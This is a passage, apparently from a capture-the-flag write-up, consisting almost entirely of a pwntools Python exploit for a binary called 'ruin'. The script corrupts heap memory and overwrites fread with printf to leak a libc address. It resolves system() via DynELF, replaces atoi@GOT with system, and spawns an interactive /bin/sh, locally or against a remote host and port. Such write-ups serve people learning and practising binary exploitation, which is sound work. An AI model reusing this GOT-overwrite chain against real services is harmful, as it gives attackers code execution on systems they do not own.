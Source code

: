     # Allocate a chunk on top of Passphrase, secret, name, key ptrs on BSS
    payload = p32(0x41414141)
    payload += p32(0x10fb4)
    payload += p32(0x43434343)
    payload += p32(0x10f68)
    updateKey(payload)

    # Use updateKey to overwrite fread with printf
    payload = p32(0x8594)
    payload += p32(0x8594)
    payload += p32(0)
    payload += p32(0)
    updateKey(payload)

    clear()

    # Leak printf@GOT
    printf = u32(leak(0x10f58))
    log.info("Printf: " + hex(printf))

    # Resolve system by traversing the link_map
    d = DynELF(leak, printf)
    system = d.lookup('system')

    # Replace secret ptr with atoi@got
    payload = p32(0x10f80)
    editSecret(payload)

    # Overwrite the atoi@got with system()
    editSecret(p32(system))

    # Using ch
    r.sendline("/bin/sh\x00")
    clear()
    r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./ruin.7b694dc96bf316a40ff7163479850f78'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}
